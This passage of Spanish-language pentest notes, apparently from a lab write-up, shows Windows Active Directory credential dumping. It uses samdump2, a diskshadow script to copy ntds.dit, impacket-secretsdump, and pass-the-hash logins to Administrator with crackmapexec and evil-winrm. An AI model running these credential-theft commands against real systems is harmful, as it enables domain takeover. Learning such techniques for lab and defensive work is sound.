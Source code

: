 2. Si conseguimos descargarnos del registro las claves de sam y system podemos descifrarlas con *samdump2*:

```shell
$ samdump2 system sam
```


#### DISKSHADOW:

1. *Diskshadow* es una herramienta que está nativa dentro de Windows Server. Con él podremos dumpear el contenido del archivo *ntds.dit* montándolo en una unidad nueva para poder acceder a él:

2. Primero creamos el archivo que usaremos para *diskshadow*, para ello crearemos el archivo diskshadow.txt con el siguiente contenido:

```txt
[diskshadow.txt]
set context persistent nowriters
add volume c: alias caracola
create
expose %caracola% h:
exec "cmd.exe" /c robocopy /b h:\windows\ntds\ c:\users\svc_backup\music\ ntds.dit
delete shadows volume %caracola%
reset
```

NOTA: Si nos os funciona probad añadiendo un espacio al final de cada línea.

3. Ahora lo ejecutamos con *disk*

```bash
$ diskshadow /s .\dirkshadow.txt
```

4. Qué hacemos ahora? pues crackearlo con *impacket-secretsdump*:

```bash
$ impacket-secretsdump -system -ntds ntds.dit LOCAL
...
```

5. Tenemos las cuentas de Administrador, la de krbtgt, que nos servirá para realizar los ataques de Silver/Golden Ticket pero como tenemos el usuario Administrador en este caso pues no hace falta usar otro usuario.

6. Comprobamos las credenciales de administrador con un "pass to hash":

```bash
$ crackmapexec smb 10.10.10.50 -u 'Administrator' -H '9658d1d1dcd9250115e2205d9f48400d'
...
(Pwn3d!)
...
$ evil-winrm -i 10.10.10.50 -u 'Administrator' -H '9658d1d1dcd9250115e2205d9f48400d'
...
Evil WinRM Shell v.3.4
...
```
